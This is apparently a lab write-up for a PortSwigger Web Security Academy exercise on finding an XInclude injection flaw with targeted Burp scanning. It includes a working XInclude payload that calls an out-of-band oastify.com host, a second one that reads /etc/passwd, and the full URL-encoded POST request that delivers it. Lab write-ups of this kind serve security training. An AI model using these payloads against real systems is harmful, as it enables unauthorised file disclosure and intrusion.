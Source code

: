 
# 23 - Discovering vulnerabilities quickly with targeted scanning

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of /etc/passwd within 10 minutes.

Due to the tight time limit, we recommend using Burp Scanner to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a targeted scan on a specific request. Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

Hint: If you get stuck, try looking up our Academy topic on the identified vulnerability class.


---------------------------------------------

References: 

- https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing

- https://portswigger.net/web-security/xxe



![img](images/Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/1.png)

---------------------------------------------

Generated link: 



![img](images/Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/2.png)

We know this payload works:

```
<njd xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="http://itfjkky610emxm8w1amzh40dm4sygp4qsif83x.oastify.com/foo"/></njd>
```

So we will try:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

The POST request will be:

```
POST /product/stock HTTP/2
...

productId=%3c%66%6f%6f%20%78%6d%6c%6e%73%3a%78%69%3d%22%68%74%74%70%3a%2f%2f%77%77%77%2e%77%33%2e%6f%72%67%2f%32%30%30%31%2f%58%49%6e%63%6c%75%64%65%22%3e%3c%78%69%3a%69%6e%63%6c%75%64%65%20%70%61%72%73%65%3d%22%74%65%78%74%22%20%68%72%65%66%3d%22%66%69%6c%65%3a%2f%2f%2f%65%74%63%2f%70%61%73%73%77%64%22%2f%3e%3c%2f%66%6f%6f%3e&storeId=1
```



![img](images/Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/3.png)



![img](images/Discovering%20vulnerabilities%20quickly%20with%20targeted%20scanning/4.png)